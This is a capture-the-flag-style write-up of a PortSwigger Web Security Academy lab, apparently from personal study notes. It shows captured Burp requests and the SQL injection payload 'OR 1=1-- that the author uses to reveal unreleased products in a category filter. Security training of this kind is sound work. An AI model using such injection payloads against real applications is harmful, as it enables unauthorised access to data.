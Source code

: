 *This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.*

Greeted with a home page with all the products. I clicked on the category *Gifts* and checked my HTTP History to see the request made: 
```Burp 
GET /filter?category=Gifts HTTP/2
Host: 0aec00570471e35680ee49f900bd0053.web-security-academy.net
Cookie: session=903nXpdEpJu5GGuQE5dPlKc1000JTccy
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aec00570471e35680ee49f900bd0053.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

Decided to send this to the Repeater and modify the query with the following injection : 
`'OR 1=1--` , so that the query is now : 

``SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1``
%% Be sure not to include a space between 1 and `--`%%

This retrieves all the products available and removes the restriction. 

Hence, the modified request in Repeater will look like this : 
```Burp 
GET /filter?category=Gifts'OR 1=1-- HTTP/2
Host: 0aec00570471e35680ee49f900bd0053.web-security-academy.net
Cookie: session=903nXpdEpJu5GGuQE5dPlKc1000JTccy
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aec00570471e35680ee49f900bd0053.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

This solves the lab!
![Screenshot 2024-05-01 at 6.07.03 PM](images/Screenshot%202024-05-01%20at%206.07.03%20PM.png)
